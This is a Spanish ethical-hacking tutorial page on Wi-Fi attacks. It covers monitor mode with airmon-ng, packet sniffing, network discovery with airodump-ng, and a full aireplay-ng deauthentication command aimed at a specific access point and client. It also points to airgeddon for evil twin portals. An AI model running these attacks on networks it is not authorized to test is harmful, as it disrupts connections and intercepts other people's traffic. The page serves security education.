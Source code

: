 # Recursos de Hacking Ético

## Redes inalámbricas: ataques Wi-Fi

### Sniffing

Para recoger información de una red Wi-Fi necesitamos poder ver todos los paquetes que pasan por esa red. Queremos ver los beacons o los paquetes de autenticación que se envían entre el punto de acceso y los dispositivos conectados a la red. Una manera de intentar ver estos datos es usando Whiresark pero para poder ver todos esos paquetes necesitamos una interfaz de red en modo monitor. Para ello podemos usar `airmon-ng` que nos ayuda a convertir una interfaz de red en modo monitor (obviamente necesitamos una antena Wi-Fi que lo soporte).

Para hacer esto simplemente debemos abrirnos una terminal y ejecutar `airmon-ng start [interfaz de red]`. En mi caso será la wlan0 y daría una salida parecida a esto:

```sh
$ sudo airmon-ng start wlan0                                                                                                                                             1 ⨯
[sudo] password for kali:

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    443 NetworkManager
   1147 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)

```

Después podemos ejecutar tcpdump para recoger los paquetes indicandole que queremos usar la interfaz `wlan0mon`. Lo haríamos ejecutando `tcpdump -i wlan0mon`.

### Ataques de deautenticación

Es un ataque que manda constantementes paquetes de deautenticación a un dispositivo para que vuelva a reautenticarse contra el punto de acceso. Para ejecutar este ataque necesitamos saber el BSSID del punto de acceso y la mac del dispositivo al que queremos mandar esos paquetes.

Primero ejecutaríamos `airodump-ng wlan0mon` y nos daría una salida parecida a esta:

```sh

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 00:22:07:B7:B6:E4  -49       21        1    0   1  130   WPA2 CCMP   PSK  ADAMO-B6E5
 E4:26:86:26:79:98  -58       30        3    0   6  130   WPA2 CCMP   PSK  vodafoneBA2412
 C8:B4:22:82:52:0F  -65       29        1    0   6  130   WPA2 CCMP   PSK  MOVISTAR_5200
 F4:69:42:B0:66:4F  -58       23       18    0   1  130   WPA2 CCMP   PSK  MOVISTAR_6640
 C6:D4:A1:D2:40:86  -70       22        0    0   6  130   WPA2 CCMP   PSK  MOVISTAR_6640
 CC:D4:A1:D2:40:86  -72       22        0    0   6  130   WPA2 CCMP   PSK  MOVISTAR_4084
 F8:A2:D6:16:71:6B  -86        6        0    0   6   65   WPA2 CCMP   PSK  DIRECT-PDLAPTOP-M41I03NNmsP7
 5C:B1:3E:9B:58:10  -79        6        0    0  12  195   WPA2 CCMP   PSK  BlackWidow
 04:A2:22:1E:B1:26  -80        5        0    0  11  130   WPA2 CCMP   PSK  MiFibra-B124

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 E4:26:86:26:79:98  66:01:D9:71:D3:CF  -83    0 - 1e     0       13
 F4:69:42:B0:66:4F  28:6D:CD:5E:20:19  -84    0 - 1      0        1
 F4:69:42:B0:66:4F  20:3D:BD:61:EC:8E   -1    1e- 0      0       21
 F4:69:42:B0:66:4F  84:E3:42:06:32:6E  -62    0 - 1e     0        1
 F4:69:42:B0:66:4F  10:52:1C:F2:4E:A7  -72    0 - 6      0        2
 F4:69:42:B0:66:4F  28:6D:CD:5F:48:A0  -74    0 - 1      0        1
 F4:69:42:B0:66:4F  10:52:1C:F2:C4:EF  -77    0 - 6      0        1
 (not associated)   1A:28:EB:E1:2F:16  -89    0 - 1      0        1         MOVISTAR_5200
 (not associated)   3C:CF:5B:01:C8:40  -78    0 - 1      7        3
 (not associated)   6C:00:6B:FD:4A:59  -67    0 - 1     49        9
```

Esto nos muestra en la parte de arriba los puntos de acceso y en la parte de abajo los dispositivos. Una vez que tenemos esta información para mandar un ataque de deautenticación ejecutaríamos:

```
aireplay-ng -0 1000 -a 00:22:07:B7:B6:E4 -c 8c:85:90:5e:31:47 wlan0mon
```

-0 son el numero de paquetes
-a el BSSID del punto de acceso
-c el dispositivo
y por último usamos nuestra interfaz de red.

Este ataque es muy útil cuando queremos generar tráfico en una red, por ejemplo una red WEP para poder obtener la clave de manera más rápida ya que a mayor número de paquetes circulando mayor rapidez para obtener la clave.

### Evil Twin

Un evil twin es un portal de acceso falso pero que parece que es uno real y si logramos que se conecte alguien podemos esnifar todos los paquetes que mande. Hay una herramienta que nos ayuda mucho a essto y es [airgeddon](https://github.com/v1s1t0r1sh3r3/airgeddon). Está genial y nos va guiando a través de un menu interactivo hasta lograr lo que queramos.



[Volver al inicio](./../../README.md)
